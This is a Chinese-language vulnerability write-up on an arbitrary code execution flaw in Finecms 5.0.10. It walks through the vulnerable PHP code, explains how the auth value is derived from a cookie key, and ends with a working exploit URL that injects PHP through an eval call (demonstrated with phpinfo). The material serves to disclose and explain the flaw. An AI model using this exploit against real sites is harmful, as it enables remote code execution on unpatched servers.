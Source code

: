 Finecms 5.0.10 任意代码执行漏洞
===============================

一、漏洞简介
------------

> auth值是由`zero_ci_session`中zero进行md5加密获取到的，无需登陆便有，且每个站点的站长会进行不同的自定义

二、漏洞影响
------------

Finecms 5.0.10

三、复现过程
------------

### 漏洞分析

这个漏洞的文件在`/finecms/dayrui/controllers/Api.php`的data2()

    public function data2() {
            $data = array();

            // 安全码认证
            $auth = $this->input->get('auth', true);
            if ($auth != md5(SYS_KEY)) {
                // 授权认证码不正确
                $data = array('msg' => '授权认证码不正确', 'code' => 0);
            } else {
                // 解析数据
                $cache = '';
                $param = $this->input->get('param');
                if (isset($param['cache']) && $param['cache']) {
                    $cache = md5(dr_array2string($param));
                    $data = $this->get_cache_data($cache);
                }
                if (!$data) {

                    // list数据查询
                    $data = $this->template->list_tag($param);
                    $data['code'] = $data['error'] ? 0 : 1;
                    unset($data['sql'], $data['pages']);

                    // 缓存数据
                    $cache && $this->set_cache_data($cache, $data, $param['cache']);
                }
            }

            // 接收参数
            $format = $this->input->get('format');
            $function = $this->input->get('function');
            if ($function) {
                if (!function_exists($function)) {
                    $data = array('msg' => fc_lang('自定义函数'.$function.'不存在'), 'code' => 0);
                } else {
                    $data = $function($data);
                }
            }

            // 页面输出
            if ($format == 'php') {
                print_r($data);
            } elseif ($format == 'jsonp') {
                // 自定义返回名称
                echo $this->input->get('callback', TRUE).'('.$this->callback_json($data).')';
            } else {
                // 自定义返回名称
                echo $this->callback_json($data);
            }
            exit;

        }

可以看到开头这里验证了认证码：

    // 安全码认证
        $auth = $this->input->get('auth', true);
        if ($auth != md5(SYS_KEY)) {
            // 授权认证码不正确
            $data = array('msg' => '授权认证码不正确', 'code' => 0);
        } else {

授权码在`/config/system.php`

![](resource/Finecms5.0.10任意代码执行漏洞/media/rId25.png)可以看到SYS\_KEY是固定的，我们可以在Cookies找到，`/finecms/dayrui/config/config.php`

![](resource/Finecms5.0.10任意代码执行漏洞/media/rId26.png)

用浏览器查看Cookies可以看到KEY，但是验证用MD5，我们先把KEY加密就行了。

![](resource/Finecms5.0.10任意代码执行漏洞/media/rId27.png)

直接看到这一段，调用了Template对象里面的list\_tag函数

    if (!$data) {

        // list数据查询
        $data = $this->template->list_tag($param);
        $data['code'] = $data['error'] ? 0 : 1;
        unset($data['sql'], $data['pages']);

        // 缓存数据
        $cache && $this->set_cache_data($cache, $data, $param['cache']);
    }

我们到`finecms/dayrui/libraries/Template.php`看list\_tag函数的代码,代码有点长，我抓重点的地方,这里把`param=action=cache%20name=MEMBER.1%27];phpinfo();$a=[%271`的内容分为两个数组\$var、\$val，这两个数组的内容分别为

    $var=['action','name']
    $val=['cache%20','MEMBER.1%27];phpinfo();$a=[%271']

\$cache=\_cache\_var是返回会员的信息 重点的是下面的
`@eval('$data=$cache'.$this->_get_var($_param).';');`

    foreach ($params as $t) {
                $var = substr($t, 0, strpos($t, '='));
                $val = substr($t, strpos($t, '=') + 1);

再看这一段,因为swtich选中的是cache，所有就不再进行下面的分析了。
`$pos = strpos($param['name'], '.');`这句是为下面的substr函数做准备。
是为了分离出的内容为

    $_name='MEMBER'
    $_param="1%27];phpinfo();$a=[%271"
    // action
            switch ($system['action']) {

                case 'cache': // 系统缓存数据
                    if (!isset($param['name'])) {
                        return $this->_return($system['return'], 'name参数不存在');
                    }

                    $pos = strpos($param['name'], '.');
                    if ($pos !== FALSE) {
                        $_name = substr($param['name'], 0, $pos);
                        $_param = substr($param['name'], $pos + 1);
                    } else {
                        $_name = $param['name'];
                        $_param = NULL;
                    }
                    $cache = $this->_cache_var($_name, !$system['site'] ? SITE_ID : $system['site']);
                    if (!$cache) {
                        return $this->_return($system['return'], "缓存({$_name})不存在，请在后台更新缓存");
                    }
                    if ($_param) {
                        $data = array();
                        @eval('$data=$cache'.$this->_get_var($_param).';');
                        if (!$data) {
                            return $this->_return($system['return'], "缓存({$_name})参数不存在!!");
                        }
                    } else {
                        $data = $cache;
                    }

                    return $this->_return($system['return'], $data, '');
                    break;

跟踪get\_var函数，在这里我们先把\$param的内容假设为a,然后执行函数里面的内容，最后返回的\$string的内容是：

    $string=['a']

那么我们的思路就是把两边的\[\' \'\]闭合然后再放上恶意的代码。
payload为：`1'];phpinfo();$a=['1 `那么返回的\$string的内容：

    $string=['1'];phpinfo();$a=['1']

### 漏洞复线

    http://0-sec.org/index.php?c=api&m=data2&auth=目标站点的值¶m=action=cache%20name=MEMBER.1%27];phpinfo();$a=[%271

![](resource/Finecms5.0.10任意代码执行漏洞/media/rId29.png)
